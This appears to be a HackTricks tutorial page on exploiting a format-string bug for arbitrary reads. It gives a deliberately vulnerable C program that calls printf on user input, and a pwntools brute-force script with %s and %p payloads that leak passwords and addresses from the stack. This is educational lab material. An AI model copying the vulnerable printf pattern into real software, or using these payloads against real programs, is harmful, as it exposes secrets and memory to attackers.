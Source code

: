 # Format Strings - Arbitrary Read Example

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Code

```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
    char stack_password[20] = "secretStackPass"; // Password in stack
    char input1[20], input2[20];

    printf("Enter first password: ");
    scanf("%19s", input1);
    
    printf("Enter second password: ");
    scanf("%19s", input2);

    // Vulnerable printf
    printf(input1);
    printf("\n");
    
    // Check both passwords
    if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
        printf("Access Granted.\n");
    } else {
        printf("Access Denied.\n");
    }

    return 0;
}
```

Compile it with:

```bash
clang -o fs-read fs-read.c -Wno-format-security
```

### Read from stack

The **`stack_password`** will be stored in the stack because it's a local variable, so just abusing printf to show the content of the stack is enough. This is an exploit to BF the first 100 positions to leak the passwords form the stack:

```python
from pwn import *

for i in range(100):
    print(f"Try: {i}")
    payload = f"%{i}$s\na".encode()
    p = process("./fs-read")
    p.sendline(payload)
    output = p.clean()
    print(output)
    p.close()
```

In the image it's possible to see that we can leak the password from the stack in the `10th` position:

<figure><img src="../../.gitbook/assets/image (1231).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1230).png" alt="" width="338"><figcaption></figcaption></figure>

Running the same exploit but with `%p` instead of `%s` it's possible to leak a heap address from the stack at `%5$p`:

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1234).png" alt=""><figcaption></figcaption></figure>

The difference between the leaked address and the address of the password is:

```
> print 0xaaaaaaac12b2 - 0xaaaaaaac0048
$1 = 0x126a
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

